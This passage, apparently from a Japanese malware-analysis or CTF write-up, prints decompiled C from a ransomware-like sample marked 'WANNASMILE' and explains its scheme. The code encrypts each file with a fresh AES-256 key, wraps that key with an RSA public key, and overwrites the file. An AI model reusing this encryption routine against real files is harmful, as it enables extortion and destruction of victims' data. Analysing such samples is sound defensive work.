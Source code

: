 ```c
      iVar2 = memcmp("WANNASMILE",original_content,10);
      if (iVar2 != 0) {
        generate_key(aes_key,0x20);
        ctx = EVP_CIPHER_CTX_new();
        cipher = EVP_aes_256_cbc();
        EVP_EncryptInit_ex(ctx,cipher,(ENGINE *)0x0,aes_key,(uchar *)0x0);
        EVP_EncryptUpdate(ctx,(uchar *)encrypted_content,&pad,original_content,(int)file_len);
        iVar2 = pad;
        EVP_EncryptFinal_ex(ctx,(uchar *)encrypted_content + (long)pad,&pad);
        iVar2 = iVar2 + pad;
        EVP_CIPHER_CTX_free(ctx);
        rsa = rsa_pubkey;
        key_len = strlen((char *)aes_key);
        RSA_public_encrypt((int)key_len,aes_key,encrypted_key,rsa,1);
        fp = fopen(path,"wb");
        fwrite("WANNASMILE",1,10,fp);
        rsa_size2 = RSA_size(rsa_pubkey);
        fwrite(encrypted_key,1,(long)rsa_size2,fp);
        fwrite(encrypted_content,1,(long)iVar2,fp);
      }
    }
  }
  if (original_content != (uchar *)0x0) {
    free(original_content);
  }
  if (encrypted_content != (void *)0x0) {
    free(encrypted_content);
  }
  if (aes_key != (uchar *)0x0) {
    free(aes_key);
  }
  if (encrypted_key != (uchar *)0x0) {
    free(encrypted_key);
  }
  fclose(fp);
  if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

暗号化対象のファイルに `WANNASMILE` が含まれていない (= まだ暗号化されていない) 場合に暗号化処理を行っているようです。

まず 32 バイトの AES の鍵を `generate_key` で生成し、ファイルを AES-256-CBC で暗号化しています。その後生成された AES の鍵を先程の RSA の公開鍵で暗号化しています。最終的に、以下のような内容で書き込んでいます。

- `WANNASMILE` (10 バイト)
- RSA で暗号化された AES の鍵 (256 バイト)
- AES で暗号化されたファイルの内容
